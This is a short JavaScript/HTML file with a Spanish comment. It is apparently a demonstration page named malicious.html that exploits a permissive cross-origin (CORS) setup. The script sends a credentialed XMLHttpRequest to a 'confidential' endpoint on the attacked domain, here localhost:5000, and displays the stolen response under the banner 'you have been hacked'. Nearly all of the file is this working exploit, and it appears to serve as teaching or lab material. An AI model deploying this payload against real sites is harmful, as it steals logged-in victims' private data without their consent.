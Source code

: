 //Este script roba la información de un dominio desde un dominio tercero empleando javascript de manera que cuando la víctima ingrese en la página nos presente la información en un archivo que creamos con nombre malicious.html

```js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('GET', 'http://localhost:5000/confidential', true); # Dominio atacado
req.withCredentials = true;
req.send();

function reqListener() {
	document.getElementById("stolenInfo").innerHTML = req.responseText;
}

</script>

<br>
<center><h1>Has sido hackeado, esta es la informaci&oacute;n que te he robado:</h1></center>

<p id="stolenInfo"></p>
```
